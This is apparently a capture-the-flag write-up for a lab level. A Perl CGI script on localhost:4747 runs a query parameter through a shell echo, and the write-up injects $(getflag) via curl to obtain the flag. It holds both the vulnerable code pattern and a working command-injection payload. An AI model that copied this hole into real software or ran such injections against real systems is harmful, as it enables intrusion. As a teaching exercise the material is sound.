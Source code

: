 - When we entered to level04 user, we found a file (level04.pl) with perl programming language

  #!/usr/bin/perl

  # localhost:4747

use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
$y = $\_[0];
print `echo $y 2>&1`;
}
x(param("x"));

1 --> After we cat the file we found that the program launch a website on localhost with port : 4747

2 --> this website parse the query string params from url and print it with echo

3 --> the param name in the query string is “x”

4 --> So we tried with a simple example like :

"localhost:4747/?x=x" and we got => x.

- So we tired to inject the getflag cmd with curl => curl 'localhost:4747/?x=$(getflag)'

- And we got the flag
